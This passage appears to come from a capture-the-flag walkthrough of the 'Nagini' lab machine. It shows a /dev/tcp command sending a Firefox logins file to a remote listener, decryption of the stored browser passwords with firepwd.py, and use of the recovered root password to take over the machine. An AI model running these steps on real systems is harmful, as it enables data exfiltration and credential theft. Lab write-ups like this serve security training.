  ``` cat < logins.json  > /dev/tcp/10.10.0.136/4848```
 

let's crack them using the tool that we fixed and installed 

```bash
ython3 firepwd.py key4.db logins.json
globalSalt: b'db8e223cef34f55b9458f52286120b8fb5293c95'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'0bce4aaf96a7014248b28512e528c9e9a75c30f2'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'2065c62fe9dc4d8352677299cc0f2cb8'
 }
entrySalt: b'0bce4aaf96a7014248b28512e528c9e9a75c30f2'
b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'11c73a5fe855de5d96e9a06a8503019d00efa9e4'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'ceedd70a1cfd8295250bcfed5ff49b6c878276b968230619a2c6c51aa4ea5c8e'
 }
entrySalt: b'11c73a5fe855de5d96e9a06a8503019d00efa9e4'
b'233bb64646075d9dfe8c464f94f4df235234d94f4c2334940808080808080808'
decrypting login/password pairs
http://nagini.hogwarts:b'root',b'@Alohomora#123'
```
seems that we have potentials credentias let's try them for root 
```bash
hermoine@Nagini:~/.mozilla/firefox/g2mhbq0o.default$ su root
Password: 
root@Nagini:/home/hermoine/.mozilla/firefox/g2mhbq0o.default# whoami
root
root@Nagini:/home/hermoine/.mozilla/firefox/g2mhbq0o.default# 
```

flag 
```php
root@Nagini:/home/hermoine/.mozilla/firefox/g2mhbq0o.default# cd /root/
root@Nagini:~# ls
horcrux3.txt
root@Nagini:~# cat horcrux3.txt 
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   


Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Medium
Machine Name: Nagini
Horcruxes Hidden in this VM: 3 horcruxes

You have successfully pwned Nagini machine.
```